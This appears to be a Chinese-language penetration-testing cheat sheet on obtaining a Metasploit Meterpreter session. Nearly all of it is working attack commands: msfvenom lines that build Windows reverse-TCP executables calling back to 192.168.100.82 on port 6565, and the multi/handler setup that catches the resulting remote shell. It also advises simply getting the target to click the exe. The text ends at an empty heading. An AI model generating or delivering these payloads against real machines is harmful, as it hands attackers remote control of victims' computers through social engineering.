 
# 获取Meterpreter会话

```
https://uknowsec.cn/posts/uncategorized/%E5%90%8E%E6%B8%97%E9%80%8F%E4%B9%8Bmeterpreter%E4%BD%BF%E7%94%A8%E6%94%BB%E7%95%A5.html
```

##  使用msfvenom生成payload

```
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.100.82 lport=6565 -f exe -o /re.exe

msfvenom -p windows/x32/meterpreter_reverse_tcp lhost=192.168.100.82 lport=6565 -f exe -o /jojo_32.exe

msfvenom -p windows/meterpreter/reverse_tcp lhost=接受ip地址 lport=接收端口 -f exe -o rabbit.exe
```


```
 use exploit/multi/handler
```
```
set payload windows/x64/meterpreter_reverse_tcp 
```
``` 
set lhost 192.168.100.82  //设置接受payload的地址，我们这里设置MSF的地址
```
```
set lport 6565          // 设置接受的端口，这个自己自定义，只要不与其它端口冲突就可以
```
```
 run
```
然后获得会话

## 你只要想方设法让他点击到这个exe即可 接下来交给老爹!
 
将生成的exe文件或者其它类型的payload文件在目标上执行，就可以获得一个meterpreter会话，之后就可以使用msf开展后渗透测试的相关工作。

![](img/2.png)

## 可能会用到的常用代码整理
